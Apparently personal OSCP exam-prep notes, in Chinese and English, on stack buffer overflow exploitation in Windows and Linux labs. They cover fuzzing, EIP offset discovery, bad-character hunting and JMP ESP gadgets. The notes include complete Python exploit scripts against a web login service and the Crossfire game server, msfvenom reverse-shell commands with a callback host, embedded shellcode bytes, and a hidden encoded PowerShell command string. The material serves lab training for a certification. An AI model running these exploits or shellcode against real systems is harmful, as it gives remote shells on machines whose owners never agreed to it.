









# basic

## stack basic
* EIP
> 存储下一条执行的指令，执行一次变化一次

* ESP
> 存储当前函数栈顶，始终执行栈顶；

* EBP
> 存储当前含糊栈底的地址，栈底通常为基址，可通过栈底地址和偏移量相加减获取变量地址

## badchars
+ https://github.com/cytopia/badchars
+ mona 查找badchar,包括mona生成pattern、find badchars。
+ [参考1](https://pencer.io/ctf/ctf-thm-bofprep/#mona-unique-pattern)
+ [参考2](https://medium.com/swlh/tryhackme-buffer-overflow-prep-9b2ece17a13c)


```
# set working folder
!mona config -set c:\mona\%p

# create pattern
!mona pattern_create 2000

# create bytearry.bin
!mona bytearray -b "\x00"

# 内存比对 查找badchar
# -b badchar 内存地址
# possibly badchars, not all are badchars
!mona compare -f C:\mona\oscp\bytearray.bin -a 00B8FA5C
```

badchar list


repeat, regererate byte.bin and compare
最终对比结果， status unmodified 为止。


## overflow tech
参考
https://github.com/joshua17sc/Buffer-Overflows

[https://www.hackingarticles.in/a-beginners-guide-to-buffer-overflow/](https://www.hackingarticles.in/a-beginners-guide-to-buffer-overflow/)
https://boschko.ca/braindead-buffer-overflow-guide-to-pass-the-oscp-blindfolded/
[Buffer Overflows Made Easy 學習筆記(OSCP Preparation) - 駭客貓咪 HackerCat](https://www.hackercat.org/oscp/buffer-overflows-made-easy-notes-oscp-preparation)
[The Braindead Buffer Overflow Guide to Pass the OSCP Blindfolded](https://boschko.ca/braindead-buffer-overflow-guide-to-pass-the-oscp-blindfolded/)
[Complete Guide to Stack Buffer Overflow (OSCP Preparation) - StefLan's Security Blog](https://steflan-security.com/complete-guide-to-stack-buffer-overflow-oscp/)


[Windows Exploit Development – Part 6: SEH Exploits - Security SiftSecurity Sift](http://www.securitysift.com/windows-exploit-development-part-6-seh-exploits/)
https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/


### jmp esp

```
# mona 直接查找
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
!mona findwild -s "JMP ESP"

# 查找跳转指令，指定dll查找
msf-nasm_shell
nasm> jmp esp
00000000  FFE4              jmp esp
!mona find -s "\xff\xe4" -m "libspp.dll"

# GUI查找
search for > all commands in all modules/ all sequences in all modules
input: JMP ESP
```

### pop ret

GUI查找
search for > all sequences in all modules
```
POP r32
nret
```


## fuzz to crash

fuzzing with spike
https://samsclass.info/127/proj/p16-spike.htm

boofuzz 

## 关于考试
提供脚本，考试主要关注
fuzz and find offset
find jump
find badchars
generate shellcode
exploit

https://www.reddit.com/r/oscp/comments/dupsfx/buffer_overflows_heck/


# troubleshooting 
https://www.reddit.com/r/oscp/comments/ergrfj/bof_interactive_reverse_shell/

This happens from time to time when trying to gain a shell on a victim host. Consider it as part of the troubleshooting process. When I encounter this, here are some things to try:

1.  Instead of a reverse shell, try a bind shell. Bind shell shellcode is smaller and a little simpler. There are fewer places to go wrong and can therefore make it easier to troubleshoot. A reverse shell needs to open a socket and actually send a connection back whereas a bind shell just needs to open a socket and attach a binary to it (I am oversimplifying in both cases here of course but you get the point).

2.  What kind of shell are using? When you generate a payload with msfvenom there similar looking names for shells but are very different in nature (i.e. some are staged, and others are not). Make sure you check the list of available payloads and at the very least, try different ones. Ideally though, lookup the difference between them. Some might yield better results.

3.  Make sure the architecture matches. It’s an easy thing to overlook but can make all the difference. 32-bit binaries will execute on 64-bit arch but not the other way around. Sometimes might even find that a payload “executes” and gets as far as opening a connection to your box but stops there because of an architecture mismatch.

4.  When you’re doing BoF exercises, they are tedious yes, but you also have a great deal of insight into what’s going on in memory because you’ve already got your debugger open. Try a stepping through your shellcode in memory and when you issue a command on your attacking machine, see if any op code gets malformed or converted in memory. I’m sure you’ve already heard it a million times but check for bad chars. I can’t tell you how many times I overlooked a badchar because I was seeing the connection come back to me, but nothing after that.

# windows bof
参考
https://www.cnblogs.com/wuerror/p/14969519.html

## 1-Fuzz 触发溢出
常用python脚本示例
```python
import socket

buffers = [b"A"]
ip = "xxx"
port = 9999
addr = (ip, port)

counter = 100
while len(buffers) <= 30: 
     buffers.append(b"A"*counter)
     counter = counter + 100


for buffer in buffers:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(addr)
    s.send(buffer)
    s.recv(4096)
    s.close()
    print("send  %s bytes" % len(buffer))
```

http fuzz脚本
```python
#!/usr/bin/python
import socket
import time
import sys

size = 100
while(size < 2000):
    try:
        print "\nSending evil buffer with %s bytes..."  % size
        inputBuffer = "A" * size
        content = "username=" + inputBuffer + "&password=A"
        buffer = "POST /login HTTP/1.1\r\n"
        buffer += "Host: 10.11.0.22\r\n"
        buffer += "User - Agent: Mozilla / 5.0 (X11; Linux_86_64; rv: 52.0) Gecko / 20100101Firefox / 52.0\r\n"
        buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
        buffer += "Accept-Language: en-US,en;q=0.5\r\n"
        buffer += "Referer: http://10.11.0.22/login\r\n"
        buffer += "Connection: close\r\n"
        buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
        buffer += "Content-Length: " + str(len(content)) + "\r\n"
        buffer += "\r\n"
        buffer += content
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("10.11.0.22", 80))
        s.send(buffer)
        s.close()
        size += 100
        time.sleep(10)
    except:
        print "Could not connect!"

```

## 2-控制EIP，查找EIP地址在溢出数据的位置
两种方式查找EIP地址 位置
* 二分法查找 
发送400 A， 400 B，确认位置
发送400 B，200 B, 200 C
逐步确认所在位置

* msf-pattern-create生成不重复且规则的string

```
locate pattern_create
msf-pattern_create -l 800
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4A5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak

//python split
str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC....."
n = 50
for i in range(0, len(str), n):
print "Str = Str + " + '"' + str[i:i+n] + '"'

```

```python
#!/usr/bin/python
import socket

try:
    print "\nSending evil buffer..."
    inputBuffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa...1Ba2Ba3Ba4Ba5Ba"
    content = "username=" + inputBuffer + "&password=A"

```
运行查看EIP位置写入内容
```
msf-pattern_offset -l 800 -q 42306142
[*] Exact match at offset 780
```
python写入eip及buffer，验证eip是否正确；程序崩溃，EIP位置被写入B
```python
filler = "A" * 780
eip = "B" * 4
buffer = "C" * 16
inputBuffer = filler + eip + buffer

```

## 3-确认shellcode大小
确认可利用的内存大小，写入shellcode
一般shellcode350-400 bytes
关键代码，800-1500 bytes 内确认大小
```
filler = "A" * 780
eip = "B" * 4
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))
inputBuffer = filler + eip + offset + buffer
```
查看ESP，包含DDDD
DDDD 的结束减去开始位置，即可用的空间，byte单位

```
print (0x01A9745C - 0x01A97720)
-708
```

## 4-处理bad char
可能导致shellcode异常 p388

```
badchars = (
  )
try:
print  "\nSending evil buffer..."
filler = "A" * 780
eip = "B" * 4
offset = "C" * 4
inputBuffer = filler + eip + offset + badchars
content = "username=" + inputBuffer + "&password=A"

```

## 5-寻找跳板--jmp esp：

Immunity Debugger
SafeSEH319(Structured Exception Handler Overwrite, an exploit-preventative memory protection technique), ASLR, and NXCompat (DEP protection) disabled.
In other words, the executable has not been compiled with any memory protection schemes, and
will always reliably load at the same address, making it ideal for our purposes.
```
//list all dlls loaded by exe
!mona modules

msf-nasm_shell
nasm> jmp esp
00000000  FFE4              jmp esp
//search for opcodes using mona.py
!mona find -s "\xff\xe4" -m "libspp.dll"
//确认 jmp esp地址，是否包含badchars，修改python脚本
0x10090c83
```

```python
    filter = "A" * 780
    eip = "\x83\x0c\x09\x10"   //反向
    offset = "C" * 4
    buffer_end = "D" * (1500 - len(filter) - len(eip) - len(offset))
    inputBuffer = filter + eip + offset + buffer_end
```

## 6.generating shellcode 

```
msfvenom -l payloads
//-p 指定payload
//-f c,  c-format code
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.196 LPORT=4444 -f c
//-b 指定badchars
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.196 LPORT=4444 -f c –e
x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

## 7 get shell

```
//use exitthread, to avoid interrupting the service
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.196 LPORT=4444 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

```python
#!/usr/bin/python
import socket
import time
import sys

shellcode = ()
try:
    print "\nSending evil buffer "
    filter = "A" * 780
    eip = "\x83\x0c\x09\x10"
    offset = "C" * 4
    nops = "\x90" * 10
    inputBuffer = filter + eip + offset + nops + shellcode
    content = "username=" + inputBuffer + "&password=A"
    sock_buffer = "POST /login HTTP/1.1\r\n"
    sock_buffer += "Host: 192.168.196.10\r\n"
    sock_buffer += "User - Agent: Mozilla / 5.0 (X11; Linux_86_64; rv: 52.0) Gecko / 20100101Firefox / 52.0\r\n"
    sock_buffer += "Accept: 9text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    sock_buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    sock_buffer += "Referer: http://192.168.196.10/login\r\n"
    sock_buffer += "Connection: close\r\n"
    sock_buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    sock_buffer += "Content-Length: " + str(len(content)) + "\r\n"
    sock_buffer += "\r\n"
    sock_buffer += content
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("192.168.196.10", 80))
    s.send(sock_buffer)
    s.close()
    print "\nDone!"
except:
    print "Could not connect!"
```

## fix exploit
1. change socket information
> ip/port
2. change return address
> 可能因os不同，地址不同
> repeat target env 获取return address
> use information from other publicly exploits to get return address, but less reliable.
3. change payload
> 考虑shellcode 的安全性，backdoor
> 修改hex shellcode
4. change overflow buffer
> eip 错位问题，导致失败； c代码
>

### change overflow buffer
P468 示例

如下代码中，strcpy, strcat 通过查找00确定str结束
memset将最后一位置为00,导致payload仅有779个A，EIP地址发生错位

```
    memset(padding + initial_buffer_size - 1, 0x00, 1); #最后一位置为00,null byte
    .....
    char *buffer = malloc(buffer_length);
    memset(buffer, 0x00, buffer_length);
    strcpy(buffer, request_one);
    strcat(buffer, content_length_string);
    strcat(buffer, request_two);
    strcat(buffer, padding);
    strcat(buffer, retn);
    strcat(buffer, shellcode);
    strcat(buffer, request_three);

```

### change payload

# linux bof

Edb-debugger

```
sudo apt install edb-debugger
```

* 重现环境
crossfire
http://www.offensive-security.com/crossfire.tar.gz
kali-linux-2020.4-vmware-i386.7z
http://old.kali.org/kali-images/kali-2020.4/kali-linux-2020.4-vmware-i386/kali-linux-2020.4-vmware-i386.7z
vmware 14.1.1 build-7528167
grub NX disable
> noexec=off noexec32=off

参考：
https://www.freebuf.com/vuls/260392.html
https://mrzudokorn.medium.com/linux-buffer-overflow-feat-crossfire-v1-9-0-abca623a6c63
https://www.doyler.net/security-not-included/crossfire-buffer-overflow-linux-exploit

## DEP, ASLR and Canaries
Recent Linux kernels and compilers have implemented various memory protection techniques such as Data Execution Prevention (DEP),328 Address Space Layout Randomization (ASLR),329 and Stack Canaries.330
Since the bypass of these protection mechanisms is beyond the scope of this module, our test version of Crossfire has been compiled without stack-smashing protection (stack canaries), ASLR, and DEP.


## 1-Fuzz the crash

```python
#!/usr/bin/python
import socket
host = "192.168.196.44"
crash = "\x41" * 4379
buffer = "\x11(setup sound " + crash + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
s.connect((host, 13327))
print s.recv(1024)
s.send(buffer)
s.close()
print "[*]Payload Sent !"
```

### exer
```
12.2.1.1 Exercises
1. Log in to your dedicated Linux client using the credentials you received.
2. On your Kali machine, recreate the proof-of-concept code that crashes the Crossfire server.
3. Attach the debugger to the Crossfire server, run the exploit against your Linux client, and
confirm that the EIP register is overwritten by the malicious buffer.
```



## 2-Controlling EIP

```
//生成顺序payload，确认eip 地址
msf-pattern_create -l 4379

//记录crash eip地址，查找位置 46367046
msf-pattern_offset -q 46367046
[*] Exact match at offset 4368
```

运行python crash 并记录eip地址
```python
#!/usr/bin/python
import socket
host = "192.168.23.133"
crash = "xxx from msf pattern create"
buffer = "\x11(setup sound " + crash + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print  "[*]Sending evil buffer..."
s.connect((host, 13327))
print s.recv(1024)
s.send(buffer)
s.close()
print  "[*]Payload Sent !"
```

check eip offsec
```
crash = "\x41" * 4368 + "B" * 4 + "C" * 7
```


### exer
```
12.3.1.1 Exercises
1. Determine the correct buffer offset required to overwrite the return address on the stack.
2. Update your stand-alone script to ensure your offset is correct.
```






## locate shellcode space
+ find if there are any registers that point to our buffer at the time of the crash.查找有没有哪个寄存器的值指向我们的缓冲区
+ identify possible JMP or CALL instructions that can redirect the execution flow to our buffer. 通过JMP或者CALL指令，将代码执行流程转到我们缓冲区内
+ crash时可看到，ESP指向缓存区最后（7个C）7个字节
无法继续增加buffer size，会引起其他crash甚至无法覆盖EIP、。
+ EAX register seems to point to the beginning of our buffer, including the “setup sound” string.EAX指向buffer 的开头，包含"setup sound"
+ eax前有12bytes(setup sound)，查找eax 12byte后地址，写 shellcode
+ esp可用空间7 bytes，跳转至eax地址执行shellcode；

```
msf-nasm_shell
nasm > add eax,12
00000000  83C00C            add eax,byte +0xc
nasm > jmp eax
00000000  FFE0              jmp eax
```
运行后，ESP指向first_stage
```
eip = "\x42" * 4
padding = "\x41" * 4368
first_stage = "\x83\xC0\x0C\xff\xe0\x90\x90"
buffer = "\x11(setup sound " + padding + eip + first_stage + "\x90\x00#"
```

## bad chars

查找badchars，可能导致程序异常

```
pip install badchars

```
无法触发crash，查看badchar


### exer
```
12.5.1.1 Exercises
1. Determine the opcodes required to generate a first stage shellcode using msf-nasm_shell.
2. Identify the bad characters that cannot be included in the payload and return address.
```

## JMP ESP
+ find a valid assembly instruction to redirect code execution to the memory location pointed to by the ESP register
定位JMP ESP 地址
+ (ctrl + o)EDB -- plugins -- Opcodesearcher; region: crossfire, jump equivalent: ESP-EIP


### exer

```
12.6.1.1 Exercises
1. Find a suitable assembly instruction address for the exploit using EDB.
2. Include the first stage shellcode and return address instruction in your proof-of-concept and
ensure that the first stage shellcode is working as expected by single stepping through it in
the debugger.
```



## get shell
* msf 生成payload
* 插入payload，注意 padding length
* nop_sled 作用 
> + 填充
> + 着陆区/滑行区
> + make sure exploit won't fail, because point to wrong address
删除8个 \x90 可获取shell

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d\x20" -f py -v shellcode

#!/usr/bin/python
# -*- coding: UTF-8 -*-

# jmp esp 0x08134596
# msf-nasm_shell
# nasm > add eax,12
# 00000000  83C00C            add eax,byte +0xc
# nasm > jmp eax
# 00000000  FFE0              jmp eax

# payload
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d\x20" -f py -v shellcode

import socket
host = "192.168.23.133"

shellcode =  b""
shellcode += b"\xba\x4b\x61\x3a\x35\xdd\xc7\xd9\x74\x24\xf4"
shellcode += b"\x5e\x2b\xc9\xb1\x12\x83\xc6\x04\x31\x56\x0e"
shellcode += b"\x03\x1d\x6f\xd8\xc0\x90\xb4\xeb\xc8\x81\x09"
shellcode += b"\x47\x65\x27\x07\x86\xc9\x41\xda\xc9\xb9\xd4"
shellcode += b"\x54\xf6\x70\x66\xdd\x70\x72\x0e\xa1\x82\x84"
shellcode += b"\xcf\x35\x81\x84\xce\x7e\x0c\x65\x60\xe6\x5f"
shellcode += b"\x37\xd3\x54\x5c\x3e\x32\x57\xe3\x12\xdc\x06"
shellcode += b"\xcb\xe1\x74\xbf\x3c\x29\xe6\x56\xca\xd6\xb4"
shellcode += b"\xfb\x45\xf9\x88\xf7\x98\x7a"

nop_sled = "\x90" * 8  # NOP sled
eip = "\x96\x45\x13\x08"
first_stage = "\x83\xC0\x0C\xff\xe0\x90\x90"

padding = "\x41" * (4368 - len(nop_sled) - len(shellcode))

buffer = "\x11(setup sound " + nop_sled + shellcode + padding + eip + first_stage + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print  "[*]Sending evil buffer..."
s.connect((host, 13327))
print s.recv(1024)
s.send(buffer)
s.close()
print  "[*]Payload Sent !"

```

